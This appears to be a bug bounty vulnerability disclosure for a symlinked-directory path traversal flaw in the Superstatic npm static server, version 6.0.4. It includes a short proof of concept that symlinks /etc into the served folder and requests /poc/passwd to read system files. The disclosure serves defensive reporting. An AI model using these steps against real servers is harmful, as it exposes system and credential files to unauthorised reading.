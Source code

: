 # Description

Path traversal vulnerability in Superstatic when symlnking directories instead of files
Allowing an attacker to read system files

# Module
module name: Superstatic
version: 6.0.4
npm page: https://www.npmjs.com/package/superstatic

Module Description

Superstatic is an enhanced static web server that was built to power. It has fantastic support for HTML5 pushState applications, clean URLs, caching, and many other goodies.
By default, Superstatic will simply serve the current directory

# Weekly Downloads

335,788

# Vulnerability Description

With a symbolically linked **directory** in the working directory, it is possible to read arbitrary files outside of the web root directory.

# POC

1)Install the Superstatic module
$ npm install -g superstatic

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file to directory
ln -s /etc/ 'dirname'

5)Run Superstatic module
$ Superstatic

6)Request the file within browser
http://localhost:3474/'dirname'/'regularfile'
http://localhost:3474/poc/passwd

7)Content of file is returned to browser

# References

Reports for file symlink path traversal

https://www.huntr.dev/bounties/1-npm-superstatic/

https://hackerone.com/reports/510043
https://hackerone.com/reports/695416


# Impact
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on
